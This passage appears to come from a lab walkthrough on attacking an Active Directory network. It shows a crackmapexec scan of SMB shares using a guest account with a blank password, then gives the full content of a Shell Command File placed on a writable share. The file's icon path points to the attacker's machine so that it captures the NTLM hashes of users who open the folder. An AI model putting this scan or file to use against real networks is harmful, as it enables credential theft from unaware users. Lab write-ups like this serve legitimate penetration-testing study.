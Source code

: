 ![](/assets/images/active-directory/nbt_close.png)

# Uploading Files on Machines

Now there shouldn't be a way of machine authenticating agains attackers, right? Well no, let's scan the network with crackmapexec as a guest account to see if we find anything interesting (this is not the only way of using a guest/null account, and some tools can or cannot give you the same result, so I recomend always use smbmap and smbclient, if you can't get results with on tool, also try as many combinations of user password as you can think for this kind of accounts).
`crackmapexec smb 192.168.56.0/24 -u guest -p "" --shares`

![](/assets/images/active-directory/crackmap_scan.png)

There we see something interesing, on FUSION machine there is a shared folder where everyone can write to, so we can try to abuse this.

## SCF Files

There is something called SCF (Shell Command Files) files, theese kind of files allow us to perform a limited set of actions on the machine, what we can do with this is to make the computer access to a network location searching for the icon that should be displayed with the file, if LLMNR of NetBIOS were enabled we could set a random location and we would catch the user hash due to its mechanism, but now that they are disable we can use it to point to us, and with that get a hash, so let's put a file called "SCFtest.scf" into the shared folder with the next content.

```
[Shell]
Command=2
IconFile=\\192.168.56.130\share\imaicon.ico
[Taskbar]
Command=ToggleDesktop
```
